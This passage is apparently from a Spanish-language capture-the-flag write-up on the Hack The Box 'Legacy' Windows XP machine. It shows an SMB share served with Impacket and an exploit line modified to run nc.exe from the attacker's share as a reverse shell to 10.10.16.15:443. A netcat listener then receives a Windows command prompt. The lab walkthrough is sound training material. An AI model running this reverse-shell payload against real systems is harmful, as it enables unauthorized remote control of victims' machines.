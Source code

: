 ```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# ls           
nc.exe
```
Para compartir el archivo usamos un servidor smbfolder.py y compartimos un recusos asignando la ruta HOME_USER

```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# smbserver.py smbFolder $(pwd)                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
En la parte de inyeccion de comando del exploit triple Z, modificamos la linea que permitia inyeccion de comandos.
```java
service_exec(conn, r'cmd /c \\10.10.16.15\smbFolder\nc.exe -e cmd 10.10.16.15 443')
```

Antes de emitir el exploit debemos levantar una conexión nc utilizando la herramienta rlwrap, para tener una shell interactiva.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# rlwrap nc -nlvp 443 
listening on [any] 443 ...
```
Cuando se ejecuta el exploit veremos que se conecta al recurso compartido y de ahi ejecuta la conexion nc.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# smbserver.py smbFolder $(pwd)                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1035)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)                                                                                                                                                         
[*] User LEGACY\ authenticated successfully
```
Conexion realizada mediante netcat.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# rlwrap nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.10.4] 1037
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32>
```

ya adentro nos movilizamos por todas las rutas para encontrar la flag.